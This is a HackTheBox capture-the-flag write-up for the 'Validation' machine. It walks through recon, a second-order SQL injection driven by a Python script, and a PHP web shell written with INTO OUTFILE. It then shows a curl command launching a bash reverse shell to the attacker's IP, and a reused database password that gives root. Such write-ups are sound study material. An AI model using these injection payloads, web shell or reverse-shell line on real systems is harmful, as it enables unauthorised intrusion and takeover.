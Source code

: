 ```yaml
---
title: Validation
tags:
  - HackTheBox
  - Easy
  - Linux
  - SQLi
  - Python-Scripting
date: 2024-09-21T00:00:00Z
---
```

![](Pasted%20image%2020241121101424.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.116 validation.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- validation.htb > sC.txt

[redacted]
PORT     STATE    SERVICE
22/tcp   open     ssh
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open     http
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
4566/tcp open     kwtc
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
5005/tcp filtered avt-profile-2
5006/tcp filtered wsm-server
5007/tcp filtered wsm-server-ssl
5008/tcp filtered synapsis-edge
8080/tcp open     http-proxy
|_http-title: 502 Bad Gateway
```

So I decided to take a look at the website:

![](Pasted%20image%2020241121101821.png)

I entered some testing usernames: 

![](Pasted%20image%2020241121101911.png)

So I decided to test some basic XSS and got one working:

```js
"><script>alert('xss')</script>
```

![](Pasted%20image%2020241121102102.png)

I couldn't get anything from this, so I decided to capture the request with Burp and inspect the petition. I noticed that if I sent the petition multiple times, the cookie was always the same for the same user, so now I know that the **user cookie is not random**:

![](Pasted%20image%2020241121102401.png)

If I do:

```shell
echo -n "pepe" | md5sum
# 926e27eecdbc7a18858b3798ba99bddd
```

I get that exactly cookie (which is basic md5). I can't do anything with this also.

So I decided to perform basic SQLi with Burp in the parameter `country`:

![](Pasted%20image%2020241121103754.png)

Now I use the generated cookie to load `validation.php`again (I did it with other user btw):

![](Pasted%20image%2020241121104107.png)

Here we can notice that an exception occurred:

```js
Uncaught Error: Call to a member function fetch_assoc() on bool in /var/www/html/account.php:33
Stack trace:
#0 {main}
  thrown in <b>/var/www/html/account.php</b> on line <b>33
```

This is a second-order SQLi.

So I can guess that there is a SQL query running behind. I tried a UNION SQLi:

```sql
Brazil' UNION SELECT 1 -- -
```

![](Pasted%20image%2020241121104542.png)

 So now we can notice that there are no errors displayed and there seems to be a column named `1`. Now I decided to use a python script to execute commands instead of using Burp Repeater:

```python
#!/usr/bin/env python3

import random
import requests
from bs4 import BeautifulSoup
from cmd import Cmd

class Term(Cmd):
    prompt = "$> "

    def default(self, args):
        name = f'gitblanc-{random.randrange(1000000,9999999)}'
        resp = requests.post('http://validation.htb/',
                headers={"Content-Type": "application/x-www-form-urlencoded"},
                # Here goes the SQLi in the post data
                data={"username": name, "country": f"' union {args};-- -"})
        soup = BeautifulSoup(resp.text, 'html.parser')
        if soup.li:
            print('\n'.join([x.text for x in soup.findAll('li')]))

    def do_quit(self, args):
        return 1

term = Term()
term.cmdloop()
```

![](Pasted%20image%2020241121105219.png)

I'll enumerate the database with:

```sql
select schema_name from information_schema.schemata
```

![](Pasted%20image%2020241121105422.png)

I'm interested in the `registration` database. So I'll enumerate it:

```sql
select table_name from information_schema.tables where table_schema='registration'
```

It has only a ingle table also called `registration`:

![](Pasted%20image%2020241121105648.png)

Now I'll enumerate it:

```sql
select column_name from information_schema.columns where table_name='registration'
```

![](Pasted%20image%2020241121105753.png)

Unfortunately, there is no password or whatever. So i decided to try to introduce a webshell using `INTO OUTFILE` function:

```sql
select "gitblanc trying to webshell" into outfile '/var/www/html/gitblanc.txt'
```

![](Pasted%20image%2020241121110215.png)

I got it! So I can now introduce a web shell:
- I'll use one on [Reverse shells 👾](/notes/reverse_shells.md)

```sql
select "<?php SYSTEM($_REQUEST['cmd']); ?>" into outfile '/var/www/html/gitblanc.php'
```

> I got it!

![](Pasted%20image%2020241121110557.png)

Now it's time to execute a reverse shell inside the web shell:

```shell
curl -s http://validation.htb/gitblanc.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.11/666 0>&1"'
```

![](Pasted%20image%2020241121111109.png)

> I got a reverse shell

## Privilege Escalation

I decided to inspect further the machine and only found `/var/www/html(config.php`:

```php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

So I decided to test this password against `root` (it's always worth to check):

![](Pasted%20image%2020241121111554.png)

> *Astonishingly, this worked*

So I can now read both user and root flag :D

![](Pasted%20image%2020241121111742.png)

==Machine pwned!==



